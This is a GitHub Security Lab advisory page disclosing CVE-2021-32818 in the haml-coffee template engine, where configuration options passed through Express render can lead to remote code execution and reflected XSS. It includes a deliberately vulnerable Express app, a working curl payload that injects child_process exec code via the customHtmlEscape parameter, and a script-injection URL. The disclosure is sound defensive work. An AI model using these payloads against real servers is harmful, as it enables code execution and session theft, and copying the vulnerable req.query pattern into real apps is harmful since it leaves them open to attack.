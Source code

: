 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">May 14, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-025: Remote code execution and Reflected cross site scripting in haml-coffee - CVE-2021-32818</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/agustingianni">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/102623?s=35" height="35" width="35">
        <span>Agustin Gianni</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>01/25/2021: Report sent to project main maintainer</li>
  <li>02/01/2021: Contacted a likely maintainer due to lack of response from the main maintainer</li>
  <li>04/25/2021: Deadline expired</li>
  <li>05/14/2021: Publication as per our <a href="https://securitylab.github.com/advisories#policy">disclosure policy</a></li>
</ul>

<h2 id="executive-summary">Executive Summary</h2>

<p><a href="https://expressjs.com/en/api.html#res.render">The Express render API</a> was designed to only pass in template data. By allowing template engine configuration options to be passed through the Express render API directly, downstream users of an Express template engine may inadvertently introduce insecure behavior into their applications with impacts ranging from Cross Site Scripting (XSS) to Remote Code Execution (RCE).</p>

<h2 id="technical-summary">Technical Summary</h2>

<p><a href="https://expressjs.com/">Express JS</a> allows developers to use a variety of template rendering engines. These engines substitute things inside the template by inspecting an object that the application has supplied. For example, the following snippet renders a template named “index” and passes an object with two elements, a title, and a message.</p>

<div class="language-javascript highlighter-rouge"><div class="highlight"><pre class="highlight"><code>
<span class="nx">app</span><span class="p">.</span><span class="kd">get</span><span class="p">(</span><span class="dl">'</span><span class="s1">/</span><span class="dl">'</span><span class="p">,</span> <span class="kd">function</span> <span class="p">(</span><span class="nx">req</span><span class="p">,</span> <span class="nx">res</span><span class="p">)</span> <span class="p">{</span>
 <span class="nx">res</span><span class="p">.</span><span class="nx">render</span><span class="p">(</span><span class="dl">'</span><span class="s1">index</span><span class="dl">'</span><span class="p">,</span> <span class="p">{</span> <span class="na">title</span><span class="p">:</span> <span class="dl">'</span><span class="s1">Hey</span><span class="dl">'</span><span class="p">,</span> <span class="na">message</span><span class="p">:</span> <span class="dl">'</span><span class="s1">Hello there!</span><span class="dl">'</span> <span class="p">})</span>
<span class="p">})</span>
</code></pre></div></div>

<p>Template engines often need a way to set their configuration parameters, such as the path to the template directory, the name of the template, and other engine-specific parameters. To accomplish this many template engines have opted to receive their configuration options directly through the Express render API.</p>

<p>Passing template engine configuration parameters through the Express render API can lead to vulnerabilities if the object is user controlled. Downstream applications often opt to pass their template data in directly through the remote user-controlled <code class="language-plaintext highlighter-rouge">req.query</code> object. This results in a scenario where a remote attacker may be able to subvert the vulnerable application through malicious template engine configuration options.</p>

<p>The security impact is specific to the engine used by the application but ranges from XSS to RCE.</p>

<p>IMPORTANT: this is a library/engine level API misuse resulting in a <strong>potential</strong> vulnerability in downstream application code. Express did <strong>not</strong> intend for render engines to mix template data with configuration options in the same object. We have confirmed this in discussion with the ExpressJS team.</p>

<p>Real world downstream vulnerabilities manifest when applications pass a user controlled object (e.g. req.query) directly into a render engine that accepts config options through the Express render interface.</p>

<p>Our research has shown that this vulnerability pattern occurs in the wild and that many template engines are following this unintended Express render API pattern of use, resulting in an unknown number of affected downstream applications.</p>

<p>By reporting this API misuse at the engine level, we hope to capture this issue more broadly than trying to pursue every single affected application as well as prevent future API misuse.</p>

<h2 id="product">Product</h2>

<p>haml-coffee</p>

<h2 id="tested-version">Tested Version</h2>

<p>1.14.1</p>

<h2 id="details">Details</h2>

<h3 id="issue-1-template-engine-configuration-options-are-passed-through-express-render-api-leading-to-rce">Issue 1: template engine configuration options are passed through Express render API leading to RCE</h3>

<p>Haml-coffee mixes pure template data with engine configuration options through the Express render API. More specifically, haml-coffee supports overriding a series of HTML helper functions through its configuration options. A vulnerable application that passes user controlled request objects to the haml-coffee template engine may introduce RCE vulnerabilities.</p>

<p>For example, control over the <code class="language-plaintext highlighter-rouge">customHtmlEscape</code> parameter can trigger RCE vulnerabilities in downstream applications.</p>

<p>Example vulnerable application code:</p>

<div class="language-javascript highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">const</span> <span class="nx">express</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">express</span><span class="dl">'</span><span class="p">)</span>
<span class="kd">const</span> <span class="nx">partials</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">express-partials</span><span class="dl">'</span><span class="p">);</span>
<span class="kd">const</span> <span class="nx">app</span> <span class="o">=</span> <span class="nx">express</span><span class="p">()</span>
<span class="kd">const</span> <span class="nx">port</span> <span class="o">=</span> <span class="mi">3000</span>


<span class="nx">app</span><span class="p">.</span><span class="nx">engine</span><span class="p">(</span><span class="dl">'</span><span class="s1">hamlc</span><span class="dl">'</span><span class="p">,</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">haml-coffee</span><span class="dl">'</span><span class="p">).</span><span class="nx">__express</span><span class="p">);</span>
<span class="nx">app</span><span class="p">.</span><span class="nx">use</span><span class="p">(</span><span class="nx">partials</span><span class="p">());</span>

<span class="nx">app</span><span class="p">.</span><span class="kd">set</span><span class="p">(</span><span class="dl">'</span><span class="s1">views</span><span class="dl">'</span><span class="p">,</span> <span class="nx">__dirname</span><span class="p">);</span>
<span class="nx">app</span><span class="p">.</span><span class="kd">set</span><span class="p">(</span><span class="dl">'</span><span class="s1">view engine</span><span class="dl">'</span><span class="p">,</span> <span class="dl">'</span><span class="s1">hamlc</span><span class="dl">'</span><span class="p">);</span>

<span class="nx">app</span><span class="p">.</span><span class="kd">get</span><span class="p">(</span><span class="dl">'</span><span class="s1">/</span><span class="dl">'</span><span class="p">,</span> <span class="kd">function</span><span class="p">(</span><span class="nx">req</span><span class="p">,</span> <span class="nx">res</span><span class="p">)</span> <span class="p">{</span>
   <span class="nx">res</span><span class="p">.</span><span class="nx">render</span><span class="p">(</span><span class="dl">'</span><span class="s1">index</span><span class="dl">'</span><span class="p">,</span> <span class="nx">req</span><span class="p">.</span><span class="nx">query</span><span class="p">)</span>
<span class="p">})</span>

<span class="nx">app</span><span class="p">.</span><span class="nx">listen</span><span class="p">(</span><span class="nx">port</span><span class="p">,</span> <span class="p">()</span> <span class="o">=&gt;</span> <span class="p">{</span> <span class="nx">console</span><span class="p">.</span><span class="nx">log</span><span class="p">(</span><span class="s2">`Listening at http://localhost:</span><span class="p">${</span><span class="nx">port</span><span class="p">}</span><span class="s2">`</span><span class="p">)</span> <span class="p">})</span>

<span class="nx">module</span><span class="p">.</span><span class="nx">exports</span> <span class="o">=</span> <span class="nx">app</span><span class="p">;</span>
</code></pre></div></div>

<p>Which uses the following template (index.hamlc):</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>%h1= "Welcome #{ @name }"
</code></pre></div></div>

<p>The following POC would execute arbitrary code on a vulnerable application by overriding the <code class="language-plaintext highlighter-rouge">customHtmlEscape</code> function:</p>

<div class="language-sh highlighter-rouge"><div class="highlight"><pre class="highlight"><code>curl <span class="s2">"http://localhost:3000/?name=a&amp;customHtmlEscape=process.mainModule.require(%27child_process%27).exec%20%27bash%20-c%20%22touch%20%2Ftmp%2FGHSLPayload%22%27"</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>Remote Code Execution.</p>

<h3 id="issue-2-template-engine-configuration-options-are-passed-through-express-render-api-leading-to-reflected-xss">Issue 2: template engine configuration options are passed through Express render API leading to reflected XSS</h3>

<p>Control over the <code class="language-plaintext highlighter-rouge">escapeHtml</code> parameter through template configuration pollution ensures that haml-coffee would not sanitize template inputs that may result in reflected Cross Site Scripting attacks against downstream applications.</p>

<p>The following POC would trigger a reflected XSS vulnerability by keeping <code class="language-plaintext highlighter-rouge">escapeHtml</code> as <code class="language-plaintext highlighter-rouge">false</code>:</p>

<div class="language-sh highlighter-rouge"><div class="highlight"><pre class="highlight"><code>http://localhost:3000/?name<span class="o">=</span>%3Cscript%3Ealert<span class="o">(</span>1<span class="o">)</span>%3C/script%3E&amp;escapeHtml<span class="o">=</span>
</code></pre></div></div>

<h4 id="impact-1">Impact</h4>

<p>Reflected Cross Site Scripting</p>

<h2 id="cve">CVE</h2>

<ul>
  <li>CVE-2021-32818</li>
</ul>

<h2 id="resources">Resources</h2>

<ul>
  <li><a href="https://expressjs.com/en/api.html#res.render">https://expressjs.com/en/api.html#res.render</a></li>
  <li><a href="http://expressjs.com/en/guide/using-template-engines.html">http://expressjs.com/en/guide/using-template-engines.html</a></li>
  <li><a href="http://expressjs.com/en/advanced/developing-template-engines.html">http://expressjs.com/en/advanced/developing-template-engines.html</a></li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/agustingianni">@agustingianni (Agustin Gianni)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2021-025</code> in any communication regarding this issue.</p>



